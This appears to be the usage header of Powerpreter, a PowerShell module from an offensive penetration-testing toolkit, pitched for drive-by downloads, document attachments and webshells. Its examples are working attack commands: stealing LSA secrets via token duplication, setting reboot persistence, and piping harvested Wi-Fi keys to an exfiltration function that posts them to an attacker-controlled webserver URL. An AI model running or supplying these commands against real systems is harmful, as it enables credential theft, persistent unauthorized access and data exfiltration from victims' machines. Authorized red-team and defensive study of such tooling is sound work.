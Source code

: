 #####Powerpreter is a script module which makes it useful in scenarios like drive-by-download, document attachments, webshells etc. where one may like to pull all the functionality in Nishang in a single file or deployment is not easy to do.Powerpreter has persistence capabilities too. See examples for help in using it.

#####Examples

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1

PS> Get-Command -Module powerpreter

The first command imports the module in current powershell session.

The second command lists all the functions available with powerpreter.

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1; Enable-DuplicateToken; Get-LSASecret

Use above command to import powerpreter in current powershell session and execute the two functions.

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1; Persistence

Use above for reboot persistence

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1

PS > Get-WLAN-Keys | Do-Exfiltration -ExfilOption Webserver -URL http://192.168.254.183/catchpost.php

Use above for exfiltration to a webserver which logs POST requests.

